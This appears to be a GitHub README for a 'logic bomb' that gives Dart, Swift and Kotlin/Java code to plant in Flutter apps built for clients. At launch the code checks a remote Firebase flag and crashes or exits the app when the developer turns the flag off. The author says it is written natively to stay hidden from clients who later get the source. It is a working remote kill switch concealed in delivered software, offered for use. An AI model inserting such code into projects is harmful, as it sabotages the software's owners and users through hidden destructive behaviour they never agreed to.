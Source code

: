 # Logic Bomb

## Control app crashing using Firebase or REST API ( Dart, Kotlin and Swift ).

#### Hom many times did you work hard and didn't get paid ? 

This code was created to protect myself from clients. 
A client may come to you wants to complete a project, when you upload the app on stores, he disappears and not pays for you.

### Do not abuse this code.

I am not responsible for any misuse of this code.

### Code is written in :
- #### Dart
- #### Swift
- #### Kotlin

I made it in native to make the code more invisible if he got the source code.

## Implementation Time 

## Dart
in your main file 
import 
```
import 'package:dio/dio.dart';
import 'dart:io';
```
in main file paste this function
```
void plant() async {
  try {
    final result = await Dio().get('$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json');
    final data = result.data;
    if (Platform.isAndroid && !data['android']) {
      throw Exception();
    } else if (Platform.isIOS && !data['ios']) {
      throw Exception();
    }
  } catch (_) {
    exit(0);
  }
}
```
in main function plant your bomb
```
void main() {
  plant();
  runApp(MyApp());
}
```

## Swift
ios -> Runner -> AppDelegate.swift
then put this code

 ```
import UIKit
import Flutter

@UIApplicationMain
@objc class AppDelegate: FlutterAppDelegate {
  override func application(
    _ application: UIApplication,
    didFinishLaunchingWithOptions launchOptions: [UIApplication.LaunchOptionsKey: Any]?
  ) -> Bool {
    GeneratedPluginRegistrant.register(with: self)
    plant()
    return super.application(application, didFinishLaunchingWithOptions: launchOptions)
  }

  func plant() {
          let api = "$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json"
          let url = URL(string: api)!
          do {
              let data = try Data(contentsOf: url)
              let json = try JSONSerialization.jsonObject(with: data) as! [String:Any]
              if (json["ios"] as! Int == 0) {
                   fatalError()
              }
          } catch {
              fatalError()
          }
      }

}
 ```

## Android
in android -> app -> src -> main -> AndroidManifest.xml
put Internet Permission
```
    <uses-permission android:name="android.permission.INTERNET" />
```
then go to android -> app -> src -> main -> kotlin 
beside MainActivity
create new JavaClass Named Bomb and paste this code inside
```
package $HERE_IS_YOUR_APP_PACKAGE_NAME;

import java.io.*;
import java.net.HttpURLConnection;
import java.net.URL;

public class Bomb {

    void plant() throws IOException {
        Thread thread = new Thread(new Runnable() {

            @Override
            public void run() {
                try {
                    URL url = new URL("$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json");
                    HttpURLConnection urlConnection = (HttpURLConnection) url.openConnection();
                    urlConnection.setRequestMethod("GET");
                    BufferedReader in = new BufferedReader(new InputStreamReader(urlConnection.getInputStream()));
                    StringBuffer sb = new StringBuffer();
                    String line;
                    while ((line = in.readLine()) != null) {
                        sb.append(line);
                    }
                    in.close();
                    if (sb.toString().contains("\"android\":false")) {
                        throw new RuntimeException("");
                    }
                } catch (Exception e) {
                    throw new RuntimeException("");
                }
            }
        });

        thread.start();
    }

}
```
and in MainActivity file
paste this code 
```
package $HERE_IS_YOUR_APP_PACKAGE_NAME

import io.flutter.embedding.android.FlutterActivity
import io.flutter.embedding.engine.FlutterEngine

class MainActivity: FlutterActivity() {
    override fun configureFlutterEngine(flutterEngine: FlutterEngine) {
        super.configureFlutterEngine(flutterEngine)
        Bomb().plant()
    }

}
```

## Firebase Setup :
To get your firebase project link follow these Screenshots and don't miss any step OR it won't work.
## 1
![](firebase_setup_screenshots/1.png)
## 2
![](firebase_setup_screenshots/2.png)
## 3
![](firebase_setup_screenshots/3.png)
## 4
![](firebase_setup_screenshots/4.png)
## 5
![](firebase_setup_screenshots/5.png)
## 6
![](firebase_setup_screenshots/6.png)
## 7
![](firebase_setup_screenshots/7.png)
## 8
![](firebase_setup_screenshots/8.png)

## Example : 
```
https://logic-bomb-896dd-default-rtdb.firebaseio.com/app.json
```
